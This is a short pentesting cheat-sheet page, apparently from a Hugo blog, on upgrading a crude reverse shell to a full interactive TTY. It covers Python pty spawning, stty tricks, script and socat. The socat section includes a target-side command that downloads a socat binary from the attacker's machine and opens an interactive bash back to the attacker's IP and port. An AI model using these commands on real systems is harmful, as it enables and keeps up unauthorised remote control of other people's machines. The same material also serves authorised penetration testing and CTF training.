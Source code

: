 ```yaml
---
title: "Upgrade Shell"
date: 2024-6-27
tags: ["Reverse Shell", "Shell", "Python", "Bash", "Sh", "Tty", "Socat"]
---
```


### Upgrade Shell

#### Check installed binaries

```console
which sh
```

```console
which bash
```

```console
which python3
```

```console
which python
```

{{< tab set1 tab1 active >}}python{{< /tab >}}
{{< tab set1 tab2 >}}socat{{< /tab >}}
{{< tab set1 tab3 >}}script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```console
# Ctrl-Z to send the process to background, then
stty raw -echo; fg
```

```console
# After fg, press enter again, then
export TERM=xterm-256color
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Start a local http server
python3 -m http.server 80
```

```console
# In our local Linux machine
socat file:`tty`,raw,echo=0 tcp-listen:<LOCAL_PORT>
```

```console
# In target machine
wget -q http://<LOCAL_IP>/socat -O /tmp/socat && chmod +x /tmp/socat && /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LOCAL_IP>:<LOCAL_PORT>
```

```console
# In our local Linux machine
export TERM=xterm-256color
```

<small>*Ref: [Download socat](https://github.com/3ndG4me/socat)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
script -qc /bin/bash /dev/null
```

{{< /tabcontent >}}
